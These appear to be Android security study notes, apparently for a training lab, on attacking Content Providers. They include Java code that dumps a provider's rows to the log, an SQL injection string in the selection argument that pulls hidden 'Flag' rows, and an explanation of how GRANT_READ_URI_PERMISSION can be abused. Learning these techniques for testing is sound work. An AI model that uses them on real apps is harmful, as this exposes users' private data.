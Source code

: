# Content Provider
- [Overview](#overview)
- [SQL Injection in Content Providers](#sql-injection-in-content-providers)
- [GRANT_READ_URI_PERMISSION](#grant_read_uri_permission)


## Overview
- Content Providers are identified and accessed with a `content://` URI. 
- We can call it using adb `adb shell content query --uri CONTENT_URI`
- Using the `getContentResolver().query()` method the URI can be querried. The returned data is a table structure that can be explored using the Cursor object.

```java
Cursor cursor = getContentResolver().query(ContactsContract.RawContacts.CONTENT_URI,
                null, null,
                null, null);
```

- Dump content provider:
```java
public void dump(Uri uri) {
    Cursor cursor = getContentResolver().query(uri, null, null, null, null);
    if (cursor.moveToFirst()) {
        do {
            StringBuilder sb = new StringBuilder();
            for (int i = 0; i < cursor.getColumnCount(); i++) {
                if (sb.length() > 0) {
                    sb.append(", ");
                }
                sb.append(cursor.getColumnName(i) + " = " + cursor.getString(i));
            }
            Log.d("evil", sb.toString());
        } while (cursor.moveToNext());
    }
}
```

> [!TIP]
> Always check for query(), update(),insert() and delete() function in content providers

> [!NOTE]
> Don't forget to add queries tag in AndroidManifest.xml
> ```xml
>    <queries>
>        <package android:name="io.hextree.attacksurface"/>
>    </queries>
> ```


## SQL Injection in Content Providers
- We can use the same dump method that we have used before and pass SQL queries in selection argument:
```java
    public void dump(Uri uri) {
        Cursor cursor = getContentResolver().query(uri, null, "1) UNION SELECT * FROM Flag WHERE visible=0 AND (1", null, null);
        if (cursor.moveToFirst()) {
            do {
                StringBuilder sb = new StringBuilder();
                for (int i = 0; i < cursor.getColumnCount(); i++) {
                    if (sb.length() > 0) {
                        sb.append(", ");
                    }
                    sb.append(cursor.getColumnName(i) + " = " + cursor.getString(i));
                }
                Log.d("evil", sb.toString());
            } while (cursor.moveToNext());
        }
    }
```

## GRANT_READ_URI_PERMISSION
- Sharing access to Content Provider is a central feature of Android. It is used all the time to give other apps access, without giving direct file access. A typical <provider> looks like this:
```xml
<provider
    android:name=".providers.Flag33Provider1"
    android:authorities="io.hextree.flag33_1"
    android:enabled="true"
    android:exported="false"
    android:grantUriPermissions="true" />
```
- The provider is generally not exported with `android:exported="false"` but the attribute `android:grantUriPermissions="true"` is set. 
- This means the provider cannot be directly interacted with. But the app can allow another app to query the provider, when sending an Intent with a flag such as `GRANT_READ_URI_PERMISSION`.

- For example an app might start an Activity and expect a result. The target app can then share access to its content provider by returning such an Intent back to the caller class.
```java
intent.setData(Uri.parse("content://io.hextree.example/flags"));
intent.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
setResult(RESULT_OK, intent);
```


## Resources
- [Oversecured Content Provider](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers)